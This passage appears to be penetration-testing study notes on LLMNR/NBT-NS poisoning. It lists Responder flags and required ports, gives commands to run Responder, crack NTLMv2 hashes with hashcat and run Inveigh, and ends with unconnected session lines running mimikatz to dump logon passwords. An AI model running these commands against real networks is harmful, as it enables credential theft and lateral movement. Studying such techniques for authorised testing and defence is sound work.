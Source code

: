 | **Flag**   | **Description**    |
|--------------- | --------------- |
| `-A` | make Responder analyze mode, seeing NBT-NS, BROWSER, and LLMNR without poisoning |
| `-w` | built-in WPAD proxy server |
| `-wf` | WPAD rogue proxy server |
| `-f` | fingerprint remote host OS and version |
| `-v` | will increased the verbosity |
| `-F` or `-P` | force NTLM or Basic authentication and force proxy authentication (may cause login prompt) |

We must run the tool with sudo privileges or as root and make sure the following ports are available on our attack host for it to function best:
```
UDP 137, UDP 138, UDP 53, UDP/TCP 389,TCP 1433, UDP 1434, TCP 80, TCP 135, TCP 139, TCP 445, TCP 21, TCP 3141,TCP 25, TCP 110, TCP 587, TCP 3128, Multicast UDP 5355 and 5353
```

If Responder successfully captured hashes, as seen above, we can find the hashes associated with each host/protocol in their own text file. We can start a Responder session:
```console
zero@pio$ sudo responder -I <INTERFACE>
```

We can use `hashcat` to crack with the option 5600:
```console
zero@pio$ hashcat -m 5600 <HASH FILE> <WORDLIST>
```

## From Windows 

LLMNR & NBT-NS poisoning is possible from a Windows host as well. Let's do with the tool [Inveigh](https://github.com/Kevin-Robertson/Inveigh). It is written in C# and PowerShell. There is a [wiki](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters) that list all aviable parameters. Let's import the tool:
```console
PS C:\zeropio> Import-Module .\Inveigh.ps1
ps C:\zeropio> (Get-Command Invoke-Inveigh).Parameters
```

A LLMNR and NBNS spoofing:
```console
PS C:\zeropio> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

The PowerShell version of Inveigh is the original version and is no longer updated. The author maintains the C# version of it. We can run it as:
```console
PS C:\zeropio> \Inveigh.exe
```

The tool start showing us the options enabled and disabled. The option `[+]` are enabled by default, the options `[ ]` are disabled by default. We can hit the `esc` key to enter the console while Inveigh is running:
```console
...
C(0:0) NTLMv1(0:0) NTLMv2(3:9)>
```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit 
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm